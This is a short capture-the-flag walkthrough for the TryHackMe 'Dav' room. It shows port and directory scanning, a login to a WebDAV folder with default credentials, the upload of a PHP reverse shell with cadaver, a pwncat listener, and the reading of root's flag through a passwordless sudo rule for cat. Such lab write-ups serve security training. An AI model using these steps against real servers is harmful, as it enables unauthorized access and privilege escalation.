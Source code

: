 ```yaml
---
title: Walkthrough - Dav
published: true
---
```


Tags: Security.
Description: Boot2root machine for FIT and bsides guatemala CTF.
Difficulty: Easy

[bsidesgtdav](https://tryhackme.com/room/bsidesgtdav)

* * *

## Notes

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
```

- `gobuster dir -u http://10.10.59.127/ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -t 100 -x txt,html,php`

Running gobuster finds us a `/webdav` directory. It's a protected folder however. WebDAV is a protocol that provides a framework for users to manipulate documents on a server, such as creating or moving or changing them. 

Find default credentials through google wampp:xampp

Loggin in we get the contents of the directory.

We can use `cadaver` on kali to upload a shell

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/bsidesgtdav]
└─$ cadaver http://10.10.112.23/webdav/ 
Authentication required for webdav on server `10.10.112.23':
Username: wampp
Password: 
dav:/webdav/> put ~/scripts/php-reverse-shell.php
Uploading ~/scripts/php-reverse-shell.php to `/webdav/php-reverse-shell.php': Could not open file: No such file or directory
dav:/webdav/> put /home/oskar/scripts/php-reverse-shell.php
Uploading /home/oskar/scripts/php-reverse-shell.php to `/webdav/php-reverse-shell.php':
Progress: [=============================>] 100.0% of 2585 bytes succeeded.
```

- setup pwncat listener and recieve shell `pwncat-cs -lp 6666`

* * * 

## What is the content of user.txt?

![0xskar](/assets/bsidesgtdav01.png)

* * * 

## What is the content of root.txt?

```
(remote) www-data@ubuntu:/home/merlin$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
(remote) www-data@ubuntu:/home/merlin$ sudo cat /root/root.txt
```

* * * 

